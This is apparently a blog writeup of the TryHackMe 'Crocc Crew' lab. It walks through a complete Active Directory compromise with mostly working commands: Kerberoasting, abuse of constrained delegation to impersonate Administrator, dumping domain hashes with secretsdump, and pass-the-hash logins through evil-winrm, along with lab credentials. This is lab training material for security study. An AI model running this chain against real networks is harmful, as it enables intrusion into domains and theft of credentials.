

---

title: "Crocc Crew — TryHackMe Detailed Writeup"
date: 2025-11-06
draft: false
tags: ["tryhackme", "active-directory", "kerberos", "privilege-escalation", "red-team"]
showToc: true
description: "Full detailed walkthrough of the Crocc Crew room on TryHackMe"
---

    
| **Room Link** | https://tryhackme.com/room/crocccrew |
|---|---|
| **Difficulty** | Insane |
| **Points** | 120 |

## Summary
This room is a full Active Directory attack simulation focused on realistic enterprise privilege escalation. We start with minimal external access, enumerate exposed services, and identify weak entry points into the network. After obtaining low-privileged AD credentials, we move into internal enumeration, discover misconfigurations in Kerberos Constrained Delegation, and exploit it to impersonate privileged users. From there, we extract NT hashes and Kerberos keys, gain full Domain Administrator access, and ultimately compromise the entire domain.

* This writeup walks through each stage of the attack:
* Service & Domain Enumeration
* Identifying and using exposed credentials
* SMB & LDAP enumeration
* Kerberoasting to obtain service account credentials
* Abuse of Constrained Delegation (S4U2Self & S4U2Proxy)
* Extracting secrets via secretsdump
* Achieving full Domain Admin access

If you're studying Kerberos internals, realistic AD compromise paths, or red team post-exploitation, this room is an excellent hands-on challenge

## Initial scan

### Nmap

**Command:**

```bash
nmap -sC -sV -sS 10.10.236.0
```

**Output:**

```text
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -sS 10.10.236.0            
[sudo] password for kali:
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-04 14:46 IST
Stats: 0:03:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 85.71% done; ETC: 14:49 (0:00:02 remaining)
Nmap scan report for 10.10.236.0
Host is up (0.24s latency).
Not shown: 986 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-04 09:19:45Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-06-04T09:22:02+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC.COOCTUS.CORP
| Not valid before: 2025-06-03T08:40:24
|_Not valid after:  2025-12-03T08:40:24
| rdp-ntlm-info:
|   Target_Name: COOCTUS
|   NetBIOS_Domain_Name: COOCTUS
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: COOCTUS.CORP
|   DNS_Computer_Name: DC.COOCTUS.CORP
|   Product_Version: 10.0.17763
|_  System_Time: 2025-06-04T09:19:57+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Host script results:

```text
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-06-04T09:19:58
|_  start_date: N/AService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 331.93 seconds
```

> We can see there is a website running on port 80. Let’s try fuzzing it.

---

## Web fuzzing

**Command:**

```bash
ffuf -u http://10.10.96.32/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

**Output (trimmed):**

```text
index.html              [Status: 200, Size: 5342323]
robots.txt              [Status: 200, Size: 70]
```

### robots.txt

```
User-Agent: *
Disallow:
/robots.txt
/db-config.bak
/backdoor.php
```

Found: `/db-config.bak` — contains server credentials:

```php
$servername = "db.cooctus.corp";
$username = "C00ctusAdm1n";
$password = "B4dt0th3b0n3";
```

Tried rpcclient — nothing interesting returned, then attempted RDP.

---

## RDP and found credentials

**RDP connect attempt:**

```bash
rdesktop -f -u "" 10.10.23.38
```

RDP warned about an invalid certificate (self-signed). Connected and found credentials in the lockscreen wallpaper:

```
Visitor
GuestLogin!
```

Use these credentials for credential spray / access.

---

## SMB access with credentials

**CrackMapExec:**

```bash
crackmapexec smb 10.10.23.38 -u Visitor -p GuestLogin! --users
```

Output shows `COOCTUS.CORP\Visitor:GuestLogin!` is valid.

**Enumerating shares:**

```bash
smbclient -L //10.10.23.38 -U "Visitor"
```

Accessible shares: `ADMIN$`, `C$`, `Home`, `IPC$`, `NETLOGON`, `SYSVOL`.

**Access Home share:**

```bash
smbclient //10.10.175.192/Home -U "Visitor"
```

Found `user.txt`:

```
THM{Gu3st_******}
```

---

## LDAP / AD enumeration

Used `enum4linux-ng` and `ldapdomaindump` to dump AD details.

```bash
ldapdomaindump 10.10.175.192 -u "COOCTUS\Visitor" -p 'GuestLogin!'
```

Found `password-reset` account configured with `TRUSTED_TO_AUTH_FOR_DELEGATION!` — supports constrained delegation theory.

---

## Kerberos — GetUserSPNs & Crack TGS

**GetUserSPNs:**

```bash
impacket-GetUserSPNs COOCTUS.CORP/Visitor:GuestLogin! -request -dc-ip 10.10.96.32 -outputfile TGS.txt
```

Returned SPN: `HTTP/dc.cooctus.corp  password-reset` (constrained).

**Cracked TGS with John:**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash_crocc
```

Result: `resetpassword` cracked.

---

## Delegation discovery and abuse

**Find delegation:**

```bash
impacket-findDelegation -debug COOCTUS.CORP/password-reset:resetpassword -dc-ip 10.10.96.32
```

Delegation rights to: `oakley/DC.COOCTUS.CORP`.

**Get ST (impersonate Administrator):**

```bash
impacket-getST -spn oakley/DC.COOCTUS.CORP -impersonate Administrator "COOCTUS.CORP/password-reset:resetpassword" -dc-ip 10.10.96.32
```

Saved ticket: `Administrator@oakley_DC.COOCTUS.CORP@COOCTUS.CORP.ccache`.

Set the ticket for local usage:

```bash
export KRB5CCNAME=Administrator@oakley_DC.COOCTUS.CORP@COOCTUS.CORP.ccache
```

Added host entry for `DC.COOCTUS.CORP` to `/etc/hosts`:

```
10.10.175.192   DC.COOCTUS.CORP
```

---

## Retrieving secrets (secretsdump)

Used impacket `secretsdump` with Kerberos ticket:

```bash
impacket-secretsdump -k -no-pass DC.COOCTUS.CORP
```

Key results (trimmed):

```
Administrator:500:...:add41095f1fb0405b32f70a489de022d:::
... (many domain accounts and Kerberos keys)
```

Administrator NT hash: `add41095f1fb0405b32f70a489de022d`.

---

## Administrator access with Evil-WinRM

```bash
evil-winrm -i 10.10.96.32 -u Administrator -H 'add41095f1fb0405b32f70a489de022d'
```

Got Administrator shell.

---

## Flags

**User flag (from Home share):**

```
THM{Gu3st_******}
```

**Privilege escalation flags (found on system):**

```
THM{0n-************-DA}
THM{Wh4t-t0-d0*******************}
```

**Root flag:**

Found in `C:\PerfLogs\Admin\root.txt`:

```
THM{Cr0cc*****************}
```

---

## Conclusion

We enumerated the host, found web and RDP entry points, discovered credentials via an exposed backup file and RDP wallpaper, authenticated to SMB, enumerated AD, abused constrained delegation to impersonate Administrator, retrieved NT hashes and Kerberos keys with `secretsdump`, and obtained Administrator access to read flags.

**The END.**

---

